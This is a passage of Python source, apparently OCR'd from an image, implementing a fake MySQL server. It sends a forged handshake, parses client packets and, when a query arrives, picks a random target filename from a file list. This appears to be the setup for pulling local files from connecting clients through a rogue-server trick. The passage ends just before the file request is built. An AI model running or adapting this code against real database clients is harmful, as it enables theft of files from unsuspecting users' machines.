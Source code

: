 ```python
    def __init__(self, addr):
        asynchat.async_chat.__init__(self, sock=addr[0])
        self.addr = addr[1]
        self.ibuffer = []
        self.set_terminator(3)
        self.state = 'LEN'
        self.sub_state = 'Auth'
        self.logined = False
        self.push(
            mysql_packet(
                0,
                "".join((
                    '\x0a',  # Protocol
                    '5.6.28-0ubuntu0.14.04.1' + '\0',
                    '\x2d\x00\x00\x00\x40\x3f\x59\x26\x4b\x2b\x34\x60\x00\xff\xf7\x08\x02\x00\x7f\x80\x15\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x68\x69\x59\x5f\x52\x5f\x63\x55\x60\x64\x53\x52\x00\x6d\x79\x73\x71\x6c\x5f\x6e\x61\x74\x69\x76\x65\x5f\x70\x61\x73\x73\x77\x6f\x72\x64\x00',
                ))            )
        )

        self.order = 1
        self.states = ['LOGIN', 'CAPS', 'ANY']

    def push(self, data):
        log.debug('Pushed: %r', data)
        data = str(data)
        asynchat.async_chat.push(self, data)

    def collect_incoming_data(self, data):
        log.debug('Data recved: %r', data)
        self.ibuffer.append(data)

    def found_terminator(self):
        data = "".join(self.ibuffer)
        self.ibuffer = []

        if self.state == 'LEN':
            len_bytes = ord(data[0]) + 256*ord(data[1]) + 65536*ord(data[2]) + 1
            if len_bytes < 65536:
                self.set_terminator(len_bytes)
                self.state = 'Data'
            else:
                self.state = 'MoreLength'
        elif self.state == 'MoreLength':
            if data[0] != '\0':
                self.push(None)
                self.close_when_done()
            else:
                self.state = 'Data'
        elif self.state == 'Data':
            packet = mysql_packet.parse(data)
            try:
                if self.order != packet.packet_num:
                    raise OutOfOrder()
                else:
                    # Fix ?
                    self.order = packet.packet_num + 2
                if packet.packet_num == 0:
                    if packet.payload[0] == '\x03':
                        log.info('Query')

                        filename = random.choice(filelist)
                        PACKET = mysql_packet(
```
